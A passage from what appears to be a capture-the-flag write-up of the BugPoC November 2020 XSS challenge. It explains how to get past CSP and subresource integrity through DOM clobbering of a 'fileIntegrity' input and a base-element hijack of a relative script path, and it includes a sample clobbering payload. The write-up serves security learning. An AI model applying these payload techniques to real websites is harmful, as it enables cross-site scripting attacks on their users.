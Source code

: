 ```javascript
// securely load the frame analytics code
if (fileIntegrity.value) {
	
	// create a sandboxed iframe
	analyticsFrame = document.createElement('iframe');
	analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
	analyticsFrame.setAttribute('class', 'invisible');
	document.body.appendChild(analyticsFrame);

	// securely add the analytics code into iframe
	script = document.createElement('script');
	script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
	script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
	script.setAttribute('crossorigin', 'anonymous');
	analyticsFrame.contentDocument.body.appendChild(script);
	
}
```

We can see that the script sets an attribute `integrity`, which is cast by `fileIntegrity.value` to the script that would allow us to bypass the CSP. Going back to the top of [Error 1](/BugPoC-2020-November-XSS/#error-1-integrity-bypass), we notice that the hash is actually given to us! So our hash for the current script is `sha256-sot4TsoYPMqH9HF0f7P0xsez7m6YnNiGcQWr7OJ6FBc=`. 

Using [DOM Clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering), we are able to add the hash into our script like this:

```html
<input id='fileIntegrity' value='sot4TsoYPMqH9HF0f7P0xsez7m6YnNiGcQWr7OJ6FBc='>
```

To which it should work... but unfortunately didn't. What went wrong?

## Error 2: SRI Bypass

It was then I realised there was actually a second error. Was the error there before? I wasn't sure, but it seemed like a [Sub Resource Integrity (SRI)](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity) error based on the description:

```
Failed to find a valid digest in the 'integrity' attribute for resource 'https://wacky.buggywebsite.com/files/analytics/js/frame-analytics.js' with computed SHA-256 integrity 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E='. The resource has been blocked.
```

Since we don't control the script, there seems to be no way to add our own integrity to it. Or do we? 

Let's take a look at how the `frame-analytics.js` is being loaded:

```javascript
script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
```

Hey, it's not an absolute URL! This means that we can actually load it on our host instead, using the [Document Base URL Element](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base). Let's quickly use BugPoC's handy [Mock Endpoint Builder](https://bugpoc.com/testers/other/mock) to host our payload without using our own domain. 
